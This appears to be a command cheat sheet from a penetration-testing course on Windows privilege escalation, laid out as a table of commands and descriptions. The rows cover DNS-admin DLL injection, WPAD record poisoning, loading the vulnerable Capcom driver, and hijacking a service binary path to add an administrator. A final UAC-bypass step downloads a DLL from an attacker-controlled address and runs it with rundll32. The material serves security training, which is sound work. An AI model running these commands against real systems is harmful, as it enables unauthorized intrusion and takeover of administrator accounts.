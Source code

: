 | ``dnscmd.exe /config /serverlevelplugindll adduser.dll`` | Loading a custom DLL with dnscmd |

| ``wmic useraccount where name="netadm" get sid`` | Finding a user's SID |

| ``sc.exe sdshow DNS`` | Checking permissions on DNS service |

| ``sc stop dns`` | Stopping a service |

| ``sc start dns`` | Starting a service |

| ``reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters`` | Querying a registry key |

| ``reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll`` | Deleting a registry key |

| ``sc query dns`` | Checking a service status |

| ``Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local`` | Disabling the global query block list |

| ``Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3`` | Adding a WPAD record |

| ``cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp`` | Compile with cl.exe |

| ``reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"`` | Add reference to a driver (1) |

| ``reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1`` | Add reference to a driver (2) |

| ``.\DriverView.exe /stext drivers.txt` and `cat drivers.txt \| Select-String -pattern Capcom`` | Check if driver is loaded |

| ``EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys`` | Using EopLoadDriver |

| ``c:\Tools\PsService.exe security AppReadiness`` | Checking service permissions with PsService |

| ``sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"`` | Modifying a service binary path |

| ``REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA`` | Confirming UAC is enabled |

| ``REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin`` | Checking UAC level |

| ``[environment]::OSVersion.Version`` | Checking Windows version |

| ``cmd /c echo %PATH%`` | Reviewing path variable |

| ``curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"`` | Downloading file with cURL in PowerShell |

| ``rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll`` | Executing custom dll with rundll32.exe |
